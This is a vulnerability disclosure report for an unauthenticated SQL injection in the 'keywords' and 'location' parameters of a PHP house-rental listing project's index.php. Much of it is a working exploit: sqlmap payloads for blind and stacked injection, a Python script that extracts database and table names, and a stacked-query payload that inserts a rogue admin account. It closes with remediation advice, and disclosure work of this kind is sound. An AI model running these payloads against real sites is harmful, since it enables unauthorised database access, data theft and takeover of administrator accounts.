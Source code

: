 # PROJECTSWORLDS House rental And Property Listing Project PHP , Mysql V1.0 /index.php SQL injection
# NAME OF AFFECTED PRODUCT(S)
+ House rental And Property Listing Project PHP , Mysql

## Vendor Homepage
+ [homepage](https://projectworlds.in/free-projects/php-projects/house-rental-and-property-listing-project-php-mysql/)

# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ takakie

## Vulnerable File
+ /index.php

## VERSION(S)
+ V1.0

# Software Link
+ [Download Source Code](https://projectworlds.in/wp-content/uploads/2019/06/home-rental.zip)

# PROBLEM TYPE
## Vulnerability Type
+ SQL injection

## Root Cause
+ A SQL injection vulnerability was found in the '/index.php' file of the 'House rental And Property Listing Project' project. The reason for this issue is that attackers inject malicious code from the parameters 'keywords','location' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION
+ During the security review of "House rental And Property Listing Project", takakie discovered a critical SQL injection vulnerability in the "/index.php" file. This vulnerability stems from insufficient user input validation of the 'keywords' parameter and 'location', allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability  details and POC

## Vulnerability type:

+ boolean-based blind
+ time-based blind
+ stacked queries

## Vulnerability location:
+ 'keywords' parameter and 'location' parameter

## Payload:
```bash
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: keywords=') AND 3038=3038 AND ('BCbi'='BCbi&location=&search=search

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: keywords=');SELECT SLEEP(5)#&location=&search=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)
    Payload: keywords=') OR SLEEP(5)#&location=&search=search
---

---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: keywords=&location=india') AND 2543=2543 AND ('vOQw'='vOQw&search=search

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: keywords=&location=india');SELECT SLEEP(5)#&search=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: keywords=&location=india') AND SLEEP(5) AND ('qSUX'='qSUX&search=search
---
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
sqlmap -r newrent_sql.txt --dbms=mysql --dbs --batch 
```

![image-20250313101447955](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313101447955.png?x-oss-process=style/img-to-webp)

![image-20250313193520322](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313193520322.png?x-oss-process=style/img-to-webp)

- "Due to the system using $keyword = explode(',', $keywords); for parameter processing, commas (,) cannot be utilized. Therefore, I developed the following Proof of Concept (PoC):" 
- boolean-based blind

```python
import requests

if __name__ == '__main__':
    # your target url
    url = "http://192.168.100.147/index.php"
    database_info = ""
    country = "india" # The country parameter value must exist in the system. You can send an empty parameter query to get it.
    length = 0
    # query all tables in the database
    sql1 = "SELECT group_concat(table_name) FROM information_schema.TABLES WHERE table_schema = DATABASE()"
    # query all database
    sql2 = "select group_concat(schema_name) from information_schema.schemata"

    for i in range(1, 999):
        for c in range(32, 127):
            payload = f"{country}') AND ASCII(SUBSTR(({sql2} LIMIT 1 OFFSET 0) FROM {i} FOR 1))={c} -- "
            keywords = payload
            location = "" # if you want to attack 'location' parameter you can set 'location = payload'
            data = {
                "keywords": keywords,
                "location": location,
                "search": "search"
            }
            r = requests.post(url, data)
            if len(r.text) > 6000:
                if c == 44:
                    print("Database_info:", database_info)
                    database_info = ""
                else:
                    database_info += chr(c)
                break

        if len(database_info) == length:
            break
        length = len(database_info)
    print("Database_info:", database_info)


```

![image-20250313103633628](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313103633628.png?x-oss-process=style/img-to-webp)

![image-20250313103747890](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313103747890.png?x-oss-process=style/img-to-webp)

- stacked queries; insert a user of admin role
- Poc

```sql
keywords=india');INSERT INTO users SELECT * FROM (SELECT 3)a CROSS JOIN (SELECT 'systest')b CROSS JOIN (SELECT '15661561521')c CROSS JOIN (SELECT 'test')d CROSS JOIN (SELECT 'user1@gmail.com')e CROSS JOIN (SELECT md5('123456'))f CROSS JOIN (SELECT NOW())g CROSS JOIN (SELECT NOW())h CROSS JOIN (SELECT 'admin')j CROSS JOIN (SELECT 1)k; #
&location=
&search=search
```

![image-20250313111731407](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313111731407.png?x-oss-process=style/img-to-webp)

![image-20250313112300781](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313112300781.png?x-oss-process=style/img-to-webp)

![image-20250313112051653](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313112051653.png?x-oss-process=style/img-to-webp)

# Suggested repair
1. Use prepared statements and parameter binding:  
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. Input validation and filtering:  
Strictly validate and filter user input data to ensure it conforms to the expected format.
3. Minimize database user permissions:  
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. Regular security audits:  
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

